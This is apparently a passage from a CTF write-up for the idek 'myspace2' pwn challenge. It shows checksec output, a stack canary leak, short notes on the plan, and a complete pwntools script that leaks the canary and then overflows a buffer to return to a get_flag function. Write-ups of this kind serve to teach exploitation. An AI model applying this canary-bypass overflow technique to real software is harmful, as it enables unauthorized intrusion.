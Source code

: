 ```
[*] '/home/shuban/Code/py_workspace/ctf/idek/pwn/attachments/myspace2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
[+] Starting local process './myspace2': pid 12602
canary: 0x51426e6fa1175900
[*] Stopped process './myspace2' (pid 12602)
```

the `00` suffix is there so yea canary. Now i can bof in peace


now ->
- i overflow and i bypass canary
- theres conventiently a get_flag function. i ret to there.
- i exit cuz i need the ret to pop the top of the stack and jmp (top of the stack is addr of get flag)

so then i can finish the final script where the last order of business was just to do a simple bof with canary alignment, and then exit to leverage ret.

```py
#!/usr/bin/python3
from pwn import *
context.arch = "amd64"
context.os = "linux"
local = False

elf = ELF('./myspace2')
io = process('./myspace2')

if not local:
    io = remote("myspace2.chal.idek.team", 1337)

io.recvuntil(b"> ")
io.sendline(b"3")
io.recvuntil(b": ")
io.sendline(b"13")
io.recvline()
io.recvline()
leak = io.recvn(8)
canary = u64(leak)
print(f"canary: {hex(canary)}")

payload = b'A' * 48 + p64(canary) + b'B' * 8
payload += p64(elf.symbols['get_flag'])

io.recvuntil(b"> ")
io.sendline("2")
io.recvuntil(b": ")
io.sendline("7")
io.recvuntil(b": ")
io.sendline(payload)
io.sendline(b"4")

io.interactive()
```
